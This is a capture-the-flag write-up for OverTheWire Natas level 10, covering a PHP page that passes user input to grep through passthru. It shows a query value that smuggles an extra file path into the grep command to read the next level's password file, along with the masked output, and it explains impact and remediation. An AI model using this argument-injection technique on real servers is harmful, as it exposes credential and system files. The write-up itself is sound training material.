

# [Over The Wire (natas)] – [[Platform](http://natas10.natas.labs.overthewire.org/)] – [09/22/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [10]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas10`
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas9.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content:
   ``` html
   <pre>
      <?
      $key = "";

      if(array_key_exists("needle", $_REQUEST)) {
         $key = $_REQUEST["needle"];
      }

      if($key != "") {
         if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
         } else {
            passthru("grep -i $key dictionary.txt");
         }
      }
      ?>
   </pre>

   ```
4. Steps Taken
   1. This indicates that the command injection wouldn't be the best approach, instead maybe still exploiting the grep logic.
   2. I can make the key value into "catchall" using `.*` and it worked.

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
dictionary.txt:Catholicism
```
   3. I then explored including a second file to check altering the param value and swapping space with `%20`. `http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search`

```.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
/etc/natas_webpass/natas11:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
```

   4. This returned the flag we were looking for.

---

🔑 Why this works: 

The application filters out the characters ;, |, and & to prevent direct command injection, but it still passes user input directly into grep:

   - grep interprets regular expressions, so input like .* acts as a wildcard matching any line.

   - By including another file path (e.g., /etc/natas_webpass/natas11) in the input and replacing spaces with %20, the shell executes grep -i '.* /etc/natas_webpass/natas11' dictionary.txt.

   - grep reads both dictionary.txt and the specified file, printing any lines that match the regex. This reveals the contents of the target file (natas11 password) without needing full command injection.


---

💥 **Impact**

   - **Sensitive Data Disclosure**: Any file readable by the web server can be exposed, including password files or configuration files.

   - **Bypass of Security Filters**: Even with shell injection filtered, the application still allows reading arbitrary files.

   - **Server Information Leakage**: Knowledge of file locations and contents can aid further attacks.

---
  
🛠️ **Remediation**


   1. Avoid Passing Unsanitized Input to Shell Commands:

      - Replace passthru() with safer alternatives like file(), fopen(), or PHP regex functions (preg_grep()).

   2. Validate and Sanitize Input Strictly:

      - Only allow known, safe keywords for searching (whitelist), e.g., a list of dictionary words.

      - Reject arbitrary regex or file paths.

   3. Limit File Access:

      - Ensure the web server user cannot read sensitive files like /etc/natas_webpass/*.

      - Store passwords outside the web-accessible directory.

   4. Escape or Quote Input if Shell Execution is Required:

      - Use escapeshellarg() to safely wrap user input:
